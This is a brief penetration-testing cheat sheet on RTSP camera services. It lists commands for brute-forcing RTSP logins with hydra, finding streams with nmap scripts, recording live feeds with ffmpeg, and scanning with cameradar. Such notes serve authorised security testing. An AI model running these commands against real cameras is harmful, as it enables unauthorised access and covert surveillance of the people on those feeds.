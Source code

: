 # Real-Time Streaming Protocol (RTSP)

## Port: 554

## Tools: nmap, hydra, cameradar, ffmpeg

Link: https://github.com/Ullaakut/cameradar

### Brute-force for credentials if it requires authentication to the RTSP server

    hydra -l USER -P /path/to/passwords.txt TARGET_IP rtsp

### If we discover a machine that runs RTSP, we can run nmap to discover live streams

    sudo nmap -sV --script "rtsp-*" -p 554 TARGET_IP

### If we discover live streams this way, we can extract them and view the live stream we have downloaded to our machine

    ffmpeg -rtsp_transport tcp -i rtsp://TARGET_IP:554/mpeg4 -c copy mpeg.mp4 

### Then, open with:

    open mpeg.mp4

### or any other media player like VLC to view.

## Alternate method: Cameradar

### To scan a machine that runs RTSP, use the tool cameradar

    docker run -t ullaakut/cameradar -t TARGET_IP
